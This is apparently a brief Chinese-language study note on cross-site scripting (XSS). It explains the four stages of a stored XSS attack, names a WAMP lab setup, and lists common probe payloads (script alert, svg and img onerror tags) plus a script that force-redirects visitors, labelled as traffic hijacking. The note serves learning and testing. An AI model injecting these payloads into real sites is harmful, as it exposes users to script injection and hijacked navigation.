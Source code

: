 参考教程

```
https://blog.csdn.net/kclax/article/details/91353595
```



#### xss(跨站脚本攻击)

漏洞发生在服务端，攻击是在浏览器


分为四部 

1.攻击者将恶意代码注入到服务器
2.用户在没有防备的情况下访问了服务器
3.服务器将含有恶意代码的网页响应给客户端
4.在客户端浏览器中触发恶意js代码

```
WAMP集成环境包  php +mysql +apache
```

常用测试脚本

```
<script>alert("1")</script>
<svg><h1/a="'>
<img/src=1 onerror=alert(1)>
```

流量劫持,实现恶意跳转

```
<script>window.location.href="http://www.baidu.com";</script>
```

